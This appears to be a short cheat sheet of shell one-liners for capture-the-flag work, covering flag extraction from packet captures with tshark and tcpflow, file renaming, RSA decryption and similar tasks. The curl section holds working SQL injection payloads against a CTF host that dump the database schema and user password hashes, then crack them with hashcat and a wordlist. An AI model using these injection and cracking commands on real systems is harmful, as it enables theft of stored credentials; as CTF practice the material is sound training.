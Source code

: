 **tshark**</br>
```bash
tshark -r data.pcap -Y 'icmp and !(ip.src==128.227.236.205) and ip.src==10.136.255.127' -x | grep "0020" | cut -d" " -f5 | sed ':a;N;$!ba;s/\n//g' | xxd -r -p > output.gif
```
```bash
tshark -r pcap.pcap ip.src == 54.175.216.124 | rev | cut -d" " -f3 | rev | cut -d"." -f1 | xxd -r -p | grep -aEo "sun{.*}" | uniq
```

**find**
```bash
find . -type f -name "today*" -exec sed -i 's/apple/banana/g' \;
```

**tcpflow**
```bash
tcpflow -C -r ids_alert.pcap | sed -n "3p" | cut -d":" -f2 > key; tcpflow -C -r ids_alert.pcap | tr `tr "[:upper:]" "[:lower:]" < key``cat key` `python -c 'import string; print string.ascii_letters'` | grep -Eo "INSA{.*}"
```

**curl**
```bash
curl  --data-urlencode "username=username=data' union select group_concat(concat(table_name,0x20,column_name)) from information_schema.columns where table_schema=database()-- " -X POST https://crimemail.ctf.insecurity-insa.fr/hint.php
```
```bash
curl -s --data-urlencode "username=username=data' union select group_concat(concat(username,0x20,pass_salt,0x20,pass_md5)) from users-- " -X POST https://crimemail.ctf.insecurity-insa.fr/hint.php | grep -Eo "c\.hackle.*d" > hash; ./hashcat -a 0 -m 10 `awk '{print $3 ":" $2}' hash` rockyou.txt
```

**openssl**
```bash
openssl rsautl -decrypt -inkey privatekey.pem -in flag.bin -out decrypted.txt -raw
```

**tar**
```bash
tar xvfJ some
```

**tesseract**
```bash
tesseract some.png out
```

**rename**
```bash
rename "s/-/ /g" *
```
**env**
```bash
PS1="\[\033[01;32m\]\t:\u:\w$\[\033[0m\]"
```
